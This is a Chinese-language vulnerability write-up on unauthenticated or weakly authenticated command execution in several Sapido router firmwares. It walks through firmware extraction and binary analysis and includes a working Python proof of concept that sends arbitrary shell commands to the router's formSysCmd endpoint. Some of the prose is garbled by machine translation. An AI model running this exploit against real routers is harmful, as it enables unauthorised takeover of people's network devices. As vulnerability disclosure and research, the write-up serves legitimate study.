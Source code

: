 # Sapido 多款路由器命令执行漏洞&突破

> 原文：[http://book.iwonder.run/iot/Sapido/Sapido 多款路由器命令执行漏洞.html](http://book.iwonder.run/iot/Sapido/Sapido 多款路由器命令执行漏洞.html)

# 一、漏洞简介

## 二、漏洞影响

BR270n-v2.1.03

BRC76n-v2.1.03

GR297-v2.1.3

RB1732-v2.0.43

之前的版本存在命令执行漏洞

## 三、复现过程

### 0x01 固件环境模拟

![image](img/2004840a80a5f38b45f371903814ac70.png)

### 0x02 binwalk 解压固件

![image](img/346c2bef72d5cac86633826a905c2075.png)

![image](img/37b3d61e5468b4c5b9af3ddbd7bd6679.png)

### 0x03 查看 web 容器

![image](img/dcbe03b610b3e34f26f1684476b615a8.png)

对于嵌入式设备而言，很多服务都是移植开源的，`/etc/init.d`文件夹下是路由器启动时的加载项，在这些文件中可以看到很多的启动服务等，但是在这里我没有发现`web`容器的启动项，猜测可能厂商进行了二次开发

### 0x04 查找 http 服务模块

![image](img/ad9c937cb1c173dd893908309addbce5.png)

在这里可以看到很多关于`http`的，我们不去关注`web`网页出现的。因为我们想要知道这款路由器的`web`容器是其中，所以我们把重点放在前面的`elf`文件处，在这里我们看到一个`cm`的`elf`文件，如果知道开源的`web`服务器`boa`可能猜到一些，下面就是`boa`的架构

![image](img/eec109573d186ce31487a799878c5a87.png)

可以这里清晰的看到`web`层的英文如何状语从句：底层通过`boa`进行交互的。那么对于不知道的容器我们又该如何去分析呢？继续我们去分析剩下的`elf`程序，名字通过逐个状语从句：我们分析在`sysconf`程序中发现了`http`请求的处理方式，使用`ghidra`来分析`sysconf`

![image](img/c8c01b4791c8ec40c8b03524e50efd33.png)

通过全文搜索定位`http`到关键函数，在这里我们发现了一个关键的函数`apmib_get`通过猜测也能大概猜到这是一个关于获取的函数，通过`google`可以搜索到这个函数，会发现这个函数是关于`web`开源服务器的`boa`用到的函数，到那么这里我们就已经确认这款路由器的`web`容器的英文`boa`了。既然已经知道了`boa`，肯定那么这个知道有框架一个关键的文件`syscmd.htm`文件，可以执行系统命令，由于但是这款路由器的英文`asp`写的所以我们只进行检索`syscmd`

![image](img/2838b260e14ba39e07f972cd0e3d8c2e.png)

这里可以发现两个文件，一个`elf`文件，一个`asp`文件，打开`asp`文件

![image](img/58778b9f045e9c386cba870428311679.png)

在这里可以抛光页面可以执行系统命令

### 0x05 通过 url 访问指定页面

![image](img/5696c3ea9496cfb8d33c87ce449936b1.png)

发现可以执行系统命令，那么这里又是如何处理的呢？

通过上面的`asp`文件可以知道，对于输入的命令处理应该和`formSysCmd`有关联，这里我们进行`grep`搜索

![image](img/7084dd7ee833b895319d3239289cbfa1.png)

可以看到一个`webs`的`elf`文件，那么可以猜测这里可能就是`syscmd`执行的临时文件了

### 0x06 分析 webs 文件

![image](img/c5981d60fb3018d6ea398585870ad727.png)

![image](img/8ef3447c829e7fdc2d335b3f978f8a4e.png)

上面就是整个命令执行的逐步实现方式了，第一个图片可以看到使用`system`函数执行输入的系统命令，第二个图片可以裁剪将执行的结果通过`cat`输入到`/web/obama.dat`文件中，最后将`obama.dat`中的内容输入到`web`界面的文本框里。

### 0x07 poc

```
# Exploit Title: SAPIDO RB-1732 command line execution
# Date: 2019-6-24
# Exploit Author: k1nm3n.aotoi
# Vendor Homepage: http://www.sapido.com.tw/
# Software Link: http://www.sapido.com.tw/CH/data/Download/firmware/rb1732/tc/RB-1732_TC_v2.0.43.bin
# Version: RB-1732 V2.0.43 
# Tested on: linux

import requests
import sys

def test_httpcommand(ip, command):
   my_data = {'sysCmd': command, 'apply': 'Apply', 'submit-url':'/syscmd.asp', 'msg':''}
   r = requests.post('http://%s/goform/formSysCmd' % ip, data = my_data)
   content = r.text
   content = content[
     content.find('<textarea rows="15" name="msg" cols="80" wrap="virtual">')+56:
     content.rfind('</textarea>')]
   return content

print test_httpcommand(sys.argv[1], " ".join(sys.argv[2:])) 
```

### 0x08 运行截图

![image](img/eb836e15516a23b407e2c17f712f9a52.png)

### 0x09 BR270n-v2.1.03 命令执行突破

这个原理和 RB1732 差不多，只不过访问的页面变成了`syscmd.htm`了

![image](img/823ed9b1039632cdc5387f40f0597b23.png)

### 0x010 BRC76n-v2.1.03 命令执行漏洞

![image](img/5edf5dbdf423f3bd320fe33f9654c8cc.png)

### 0x011 GR297-v2.1.3 命令执行漏洞

![image](img/f7bc4bcd222ca0b2eed86737c3a353a9.png)

### 0x012 总结

BR270n，RB1732 命令执行有个重置就是登陆路由器，可以进行信息的同步获取用户名和密码，而且又有很多路由器使用的还是其他用户名和密码，GR297，BRC76n 则不需要进行登陆

## 参考链接

> [http://lab.xinruisec.com/2019/09/05/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/](http://lab.xinruisec.com/2019/09/05/Sapido 多款路由器命令执行漏洞/)

